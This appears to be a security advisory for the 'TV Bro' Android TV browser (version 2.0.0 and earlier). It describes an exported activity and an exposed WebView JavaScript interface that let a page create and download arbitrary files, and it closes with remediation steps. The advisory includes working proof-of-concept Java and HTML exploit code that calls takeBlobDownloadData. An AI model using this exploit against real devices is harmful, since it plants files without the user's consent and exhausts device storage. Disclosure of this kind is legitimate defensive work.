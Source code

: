 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: Arbitrary File Creation & Download via JavaScript Code Injection in WebView

**Severity**: 🔴 High

### Details:

The `com.phlox.tvwebbrowser` application mishandles external intents through WebView, allowing for both Arbitrary Code Execution (ACE) and, more critically, arbitrary file creation and downloads using specially crafted URIs.

The arbitrary file creation and download risk arises from the ability to generate Base64 encoded strings representing any file content. An attacker can craft these strings and instruct the WebView to decode and save them as files on the user's device without their consent.

**Proof of Concept**:

![Proof of Concept](https://github.com/actuator/com.phlox.tvwebbrowser/assets/78701239/581c4577-3ee5-4277-8fe9-2109921a18ec)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

**CWE Reference**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')
- [CWE-434](https://cwe.mitre.org/data/definitions/434.html): Unrestricted Upload of File with Dangerous Type 

### Remediation Steps:
1. Restrict External Intent Handling: In `AndroidManifest.xml`, set the `exported` attribute for the affected activity to `false`.
2. URI Sanitization: Implement strict validation and sanitation for URIs.
3. Validate Base64 Data: Before allowing any Base64 decoding in WebView, validate the content to ensure it does not contain malicious data.

### Addendum:

The `com.phlox.tvwebbrowser` application exposes a JavaScript interface, TVBro, to its WebView component. This poses several security risks:

- **Resource Exhaustion**: Creating extremely large files using `takeBlobDownloadData` method.
- **Arbitrary File Creation/Downloads**: The most critical vulnerability. Files with any content can be created and downloaded without user consent, just by encoding malicious data in Base64.

**Proof of Concept**:

```html
<!-- Simple HTML code to demonstrate vulnerability -->
<!DOCTYPE html>
<html lang="en">
<head>
    <title>TV Bro Exploit Demo</title>
</head>
<body>
    <button onclick="triggerExploit()">Trigger Exploit</button>
    <div id="status"></div>
    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }
        function triggerExploit() {
            const base64Data = generateRandomBase64String(500000);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; 
            const mimeType = 'text/plain';
            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "Invoking...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
            } else {
                document.getElementById('status').innerText = "Interface not found.";
            }
        }
    </script>
</body>
</html>
```

---

